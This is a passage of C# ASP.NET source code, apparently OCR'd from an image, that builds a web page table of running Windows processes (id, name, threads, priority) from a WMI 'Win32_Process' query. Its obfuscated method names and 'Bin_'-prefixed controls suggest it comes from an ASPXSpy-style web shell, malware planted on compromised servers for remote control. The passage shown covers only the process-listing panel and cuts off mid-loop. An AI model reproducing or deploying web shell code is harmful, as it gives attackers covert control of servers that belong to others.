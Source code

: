 tr.Attributes["onmouseout"]="this.className='"+bg+"';";
for(int i=1;i<7;i++)
{
TableCell td=new TableCell();
if(i==1)
{
td.Width=Unit.Parse("2%");
td.Text=UEbTI.ToString();
tr.Controls.Add(td);
}
if(i==2)
{
td.Text=sp.Id.ToString();
tr.Controls.Add(td);
}
if(i==3)
{
td.Text=sp.ProcessName.ToString();
tr.Controls.Add(td);
}
if(i==4)
{
td.Text=sp.Threads.Count.ToString();
tr.Controls.Add(td);
}
if(i==5)
{
td.Text=sp.BasePriority.ToString();
tr.Controls.Add(td);
}
if(i==6)
{
td.Text="--";
tr.Controls.Add(td);
}
}
IjsL.Controls.Add(tr);
}
}
catch(Exception error)
{
AIz();
}
AIz();
}
public void AIz()
{
try
{
Bin_H2_Title.InnerText="Process >>";
WICxe();
DCbS.Visible=true;
int UEbTI=0;
DataTable dt=cCf("Win32_Process");
for(int j=0;j<dt.Rows.Count;j++)
{
UEbTI++;
string bg=OKM();
TableRow tr=new TableRow();
tr.Attributes["onmouseover"]="this.className='focus';";
tr.CssClass=bg;
tr.Attributes["onmouseout"]="this.className='"+bg+"';";
for(int i=1;i<7;i++)
{